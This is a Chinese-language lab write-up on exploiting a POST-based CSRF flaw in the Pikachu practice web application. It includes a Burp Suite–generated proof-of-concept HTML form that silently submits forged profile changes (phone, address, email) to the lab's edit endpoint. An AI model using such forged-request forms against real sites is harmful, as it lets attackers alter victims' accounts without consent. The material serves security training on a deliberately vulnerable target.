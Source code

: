 同样，登陆，修改一下个人信息，并到 Brup Suite 上进行抓包，对于 POST型，请求已经不能通过修改 URL 来借用用户权限，那么需要自己做一个表单，再返回到提交页面来完成修改。

**漏洞利用**

直接从 burp 生成 poc 表单

![image](../../../assets/img/安全/实验/pikachu/21.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="futa1" />
      <input type="hidden" name="phonenum" value="1110" />
      <input type="hidden" name="add" value="1213" />
      <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![image](../../../assets/img/安全/实验/pikachu/22.png)
